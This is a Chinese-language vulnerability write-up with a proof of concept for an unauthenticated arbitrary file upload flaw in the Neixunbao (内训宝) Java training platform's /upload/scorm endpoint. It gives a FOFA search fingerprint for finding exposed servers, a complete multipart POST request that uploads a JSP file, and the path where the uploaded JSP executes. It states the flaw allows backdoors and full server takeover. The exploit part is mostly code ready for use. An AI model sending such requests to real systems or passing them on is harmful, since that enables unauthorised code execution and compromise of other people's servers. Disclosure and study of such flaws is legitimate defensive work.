 # 内训宝scorm存在任意文件上传漏洞
​	北京内训宝科技有限公司是一家国内知名的在线教育基础服务提供商，专注于在线教育基础服务，并开发符合互联网发展潮流的在线教育产品。内寻宝为北京内训宝科技有限公司专门用于培训行业所开发的一款基于java的服务平台。

​	内训宝企业培训平台 upload/scorm 接口存在文件上传漏洞，未经身份攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个 web 服务器。

## fofa
```javascript
body="static/nxb/css"
```

![](https://cdn.nlark.com/yuque/0/2024/png/1622799/1735633027515-abcf8dc0-00f2-4a7e-8010-201e8988c38f.png)

## poc
```rust
POST /upload/scorm HTTP/1.1
Host: 
Referer:
Content-Type: multipart/form-data; boundary=----w80tipyzy4xm9y5cb2zk

------w80tipyzy4xm9y5cb2zk
Content-Disposition: form-data; name="fileupload"; filename="test.jsp"
Content-Type: application/octet-stream

<%out.print(111 * 111);%>
------w80tipyzy4xm9y5cb2zk--
```

![](https://cdn.nlark.com/yuque/0/2024/png/1622799/1735632988296-f27321f3-ff02-4bcd-a588-b842f65bdb95.png)

```rust
/upload/imgdefault/common/20241231/1735632951571259198.jsp
```

![](https://cdn.nlark.com/yuque/0/2024/png/1622799/1735633008849-1dfcdf5e-404c-44f4-a970-5496683deb8c.png)

